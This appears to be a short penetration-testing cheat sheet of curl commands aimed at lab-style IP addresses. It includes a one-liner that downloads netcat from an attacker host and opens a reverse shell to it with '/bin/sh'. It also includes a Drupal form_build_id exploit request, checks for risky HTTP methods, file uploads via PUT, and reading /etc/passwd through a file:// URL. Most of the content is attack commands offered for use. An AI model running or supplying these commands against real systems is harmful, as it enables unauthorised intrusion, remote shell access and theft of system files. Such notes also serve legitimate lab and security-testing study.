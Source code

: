 __tags: curl web

## Send Data values

```
curl -k -i "http://10.10.10.9/?q=file/ajax/name/%23value/${form_build_id}" --data "form_build_id=${form_build_id}"
```

## Set Timeout

```
curl --connect-timeout 3 10.10.14.31:443/a.txt > /tmp/cat.txt
```

## Download nc using curl and execute it

```
curl --connect-timeout 3 10.10.14.31:443/nc > /tmp/nc; chmod +x /tmp/nc; /tmp/nc 10.10.14.31 3333 -e /bin/sh
```

## Banner Grabbing with curl (Alsd get web headers from this!!!!)

```
# For websites or web servers:

curl -s -I 10.10.10.11:8500

# For Other things on Ports:

curl 10.10.10.11:22

```

## Check to see if bad http methods are implemented

```
curl -sIX TRACE $TARGET

# OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
```

## Set user agent

```
curl --user-agent "user agent" url
```

## Use proxy and to get options

```
curl --proxy 127.0.0.1:8080 -sI -X OPTIONS http://10.10.10.56

```

## Put files on servers if it allows you to:

```
curl -X PUT http://192.168.30.97:8080/hello.txt -d @- < hello.txt

```

## Check SOCKS 5 Proxy

```
curl --socks5-hostname localhost:2222 ifconfig.me
```

## Grab a local file with curl
```
curl http:// file:///etc/passwd
```
